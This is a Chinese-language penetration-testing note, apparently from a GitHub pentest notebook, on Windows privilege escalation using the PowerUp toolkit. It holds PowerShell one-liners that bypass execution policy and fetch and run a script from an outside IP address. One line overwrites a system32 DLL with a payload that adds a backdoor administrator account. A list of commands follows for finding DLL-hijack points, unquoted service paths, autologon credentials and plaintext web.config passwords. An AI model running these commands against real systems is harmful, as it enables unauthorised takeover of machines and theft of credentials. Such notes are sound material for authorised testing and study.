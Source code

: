 	检测有漏洞的服务
	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/ps/powertools/PowerUp/PowerUp.ps1');Invoke-AllChecks"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/153.png)

	>icacls C:\Windows\system32\\wlbsctrl.dll 查看文件权限，F为完全控制，M修改
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/154.png)

	在AbuseFunction中会显示利用语句。
	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/ps/powertools/PowerUp/PowerUp.ps1'); Write-HijackDll -OutputFile 'C:\Windows\system32\\wlbsctrl.dll' -Command 'net user admin pass@Qwe1 /add&net localgroup administrators admin /add'"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/155.png)
	
	重启电脑后会新增用户admin
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/156.png)

	查找可能劫持的进程
	>Find-ProcessDLLHijack
	查找环境变量中当前用户可修改的目录
	>Find-PathDLLHijack
	查找存在注册表中自动登录用户的平局
	>Get-RegistryAutoLogon
	查询trusted_service_path
	>Get-ServiceUnquoted
	查询当前用户可修改的注册表开机启动项
	>Get-ModifiableRegistryAutoRun
	查询当前用户可修改的计划任务项
	>Get-ModifiableScheduledTaskFile
	查询系统中所有web.config文件中的明文密码
	>Get-WebConfig
